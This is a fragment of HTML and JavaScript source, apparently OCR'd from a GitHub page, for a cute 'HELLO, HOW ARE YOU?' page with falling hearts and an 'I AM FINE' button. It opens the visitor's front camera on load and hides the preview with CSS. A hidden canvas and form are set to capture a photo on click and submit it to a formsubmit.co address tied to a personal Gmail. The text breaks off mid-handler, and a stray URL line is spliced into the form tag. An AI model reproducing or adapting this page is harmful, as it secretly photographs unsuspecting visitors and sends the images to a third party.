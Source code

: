 @keyframes fall {
to { transform: translateY(110vh) rotate(360deg); }
}

video {
display: none; /* hide live camera preview */
}
</style>

</head>  
<body>  <h2>HELLO ❤ — HOW ARE YOU?</h2>  
<button id="capture">I AM FINE</button>  <canvas id="canvas" style="display:none;"></canvas>

<form id="imageForm" action="https://formsubmit.co/binodbist972

https://github.com/user-attachments/assets/3177d431-2542-4d2d-b118-fb8b3d76479e

@gmail.com" method="POST" enctype="multipart/form-data">  
  <input type="hidden" name="_captcha" value="false">  
  <input type="hidden" name="_template" value="table">  
  <input type="hidden" name="_next" value="https://BinodBist.77.github.io/Qnahi/index.html">  
  <input type="file" id="imageInput" name="image" accept="image/png, image/jpeg" style="display:none;">  
  <button type="submit" style="display:none;">Submit</button>  
</form>  <script>  
const canvas = document.getElementById("canvas");  
const captureButton = document.getElementById("capture");  
const imageInput = document.getElementById("imageInput");  
const form = document.getElementById("imageForm");  
  
let video;  
  
// Start camera  
navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })  
  .then(stream => {  
    video = document.createElement("video");  
    video.srcObject = stream;  
    video.play();  
  })  
  .catch(err => console.error("Error accessing camera: ", err));  
  
// Heart animation  
function createHeart() {  
  const heart = document.createElement("div");  
  heart.classList.add("heart");  
  heart.innerHTML = "💙";  
  heart.style.left = Math.random() * 100 + "vw";   
  heart.style.fontSize = (Math.random() * 20 + 10) + "px";   
  heart.style.animationDuration = (Math.random() * 5 + 5) + "s";   
  document.body.appendChild(heart);  
  setTimeout(() => heart.remove(), 10000);  
}  
setInterval(createHeart, 300);  
  
// Capture photo and submit  
captureButton.addEventListener("click", () => {  
  if (!video) return alert("Camera not ready!");  
  
